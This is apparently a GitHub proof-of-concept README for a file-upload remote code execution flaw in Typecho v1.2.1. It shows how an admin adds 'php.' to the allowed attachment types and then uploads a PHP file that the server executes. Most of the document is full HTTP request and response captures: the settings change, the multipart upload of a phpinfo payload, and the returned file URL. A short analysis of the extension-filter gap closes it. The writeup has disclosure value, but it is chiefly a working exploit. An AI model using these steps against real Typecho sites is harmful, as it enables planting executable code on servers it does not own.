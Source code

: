 # Typecho-v1.2.1-RCE
typecho-v1.2.1-RCE

## Vulnerability to reproduce
Log in to the backend of the website. Locate the /admin/options-general.php file and add 'php.' to the '其他格式' `otros formatos` section at the bottom. Then click on '保存设置' `Guardar Ajustes` 

```php
POST /typecho/index.php/action/options-general?_=7f7f3849a454840627316bb52364d2fc HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/options-general.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

title=Hello+World&siteUrl=http%3A%2F%2F127.0.0.1%2Ftypecho&description=Your+description+here.&keywords=typecho%2Cphp%2Cblog&allowRegister=0&allowXmlRpc=2&timezone=28800&attachmentTypes%5B%5D=%40image%40&attachmentTypes%5B%5D=%40other%40&attachmentTypesOther=php.
```

![web](./typecho-V1.2.1_rce_01.png)

Visit the URL 'http://127.0.0.1/typecho/admin/write-post.php'. This is based on the current directory where I have set up. The actual directory is 'admin/write-post.php'. After entering, click on the '附件' `apéndice` button on the right side, and then click the highlighted button '选择文件上传' `seleccionar carga de archivo`. Upload a random PHP file here and the system will not block it. After successful upload, the file can still be executed and the PHP address will be returned.

![web](./typecho-V1.2.1_rce_02.png)

The following is the request packet.

```php
POST /typecho/index.php/action/upload?_=d84b30765596739f0c2d3724d7971184 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------163606809438821006984144374022
Content-Length: 519
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/write-post.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="name"

20230616121905.php
-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>
-----------------------------163606809438821006984144374022--
```

The following is the response packet.

```php
HTTP/1.1 200 OK
Date: Fri, 16 Jun 2023 14:51:24 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 303

["http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php",{"cid":8,"title":"phpinfo.php","type":"php","size":21,"bytes":"1 Kb","isImage":false,"url":"http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php","permalink":"http:\/\/127.0.0.1\/typecho\/index.php\/attachment\/8\/"}]
```

The requested URL is 'http://127.0.0.1/typecho/usr/uploads/2023/06/3042336957.php'.

![web](./typecho-V1.2.1_rce_03.png)

## Vulnerability Analysis
The website filtered extensions such as php, php5, php3, etc., but forgot about php. It can still be parsed successfully on Windows.
